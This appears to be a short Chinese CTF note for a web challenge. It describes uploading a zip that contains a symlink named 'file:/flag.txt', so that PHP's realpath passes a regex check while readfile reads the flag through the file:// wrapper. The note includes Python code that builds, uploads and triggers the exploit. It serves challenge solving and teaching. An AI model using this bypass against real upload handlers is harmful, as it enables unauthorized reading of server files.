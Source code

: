 tags:: CTF/Zip

- # 思路
	- 使用zip创建软链接欺骗realpath函数，让realpath将一个伪协议解析成一个路径，从而使用伪协议操纵readfile函数读取flag
- # 欺骗realpath
	- realpath: 不会解析伪协议，会将软链接解析成实际的路径
	- readfile: 会解析伪协议
	- 可以创建一个`file:`文件夹，其中放置一个软链接`flag.txt`指向`/var/www/html/index.php`，欺骗realpath将`file:///flag.txt`解析成`/var/www/html/index.php`，从而绕过正则匹配
- # zip软链接构造
	- 参考[[CTFWEB/Zip]]
	- ```python
	  shell.exec(
	      "sudo mkdir /var/www/html; sudo touch index.php; sudo mkdir 'file:'; sudo ln -s /var/www/html/index.php file:/flag.txt; zip file.zip --symlinks file:/flag.txt"
	  )
	  with open("file.zip", "rb") as f:
	      r = base_post(url, files={"file": ("a.zip", f)})
	  
	  shell.exec("rm file.zip; sudo rm /var/www/html/index.php; sudo rm file:/flag.txt; sudo rm -d file:/")
	  
	  r = base_get(url, params = {
	      "file": "file:///flag.txt"
	  })
	  print(r.text)
	  
	  ```